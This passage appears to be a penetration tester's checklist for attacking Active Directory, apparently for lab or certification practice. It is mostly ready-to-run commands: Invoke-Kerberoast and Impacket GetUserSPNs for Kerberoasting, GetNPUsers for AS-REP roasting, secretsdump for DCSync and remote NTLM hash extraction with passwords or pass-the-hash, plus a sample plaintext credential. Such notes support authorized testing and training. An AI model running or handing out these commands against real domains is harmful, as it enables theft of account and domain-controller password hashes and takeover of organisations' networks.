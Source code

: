 - [ ] Import `Invoke-Kerberoast.ps1` on the Target Machine
```
. .\Invoke-Kerberoast.ps1
```

- [ ] Request service tickets for kerberoastable accounts on the Target Machine
```
Invoke-Kerberoast -Domain hentai.com -OutputFormat Hashcat | fl
```

- [ ] Crack the hashes on your Kali Machine or use for PtH

## Impacket
### AS-REP Roasting
- [ ] Use `impacket-GetNPUsers` to get the AS-REP hash from your Kali Machine
```
impacket-GetNPUsers -dc-ip 192.168.yyy.yyy -request -outputfile hashes.asreproast hentai.com/salesboy
```
- Get user password hashes that "Do not require Kerberos preauthentication"
### Kerberoasting
- [ ] Use `impacket-GetUserSPNs` to get the TGS-REP hash from your Kali Machine
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.yyy.yyy hentai.com/salesboy
```
- Get service account password hashes
### Domain Controller Synchronization
- [ ] Use `impacket-secretsdump` to request NTLM hash of users by impersonatng a domain controller using replication from your Kali Machine
```
impacket-secretsdump -just-dc-user salesman hentai.com/sussyadmin:"BrahdoyouGotanythetissues6969\!"@192.168.yyy.yyy
```
### Remote NTLM extraction
- [ ] Remotely Get NTLM hashes on the Domain Controller with credentials from your Kali Machine
```bash
impacket-secretsdump -just-dc-ntlm domain/user:password@IP
```
```bash
impacket-secretsdump -just-dc-ntlm domain/user:@IP-hashes LMHASH:NTHASH
```
- Works only on DC machine

# Active Directory Enumeration

- [ ] Show the account policy on the Target machine
```
net accounts
```
```
Get-ADDefaultDomainPasswordPolicy
```
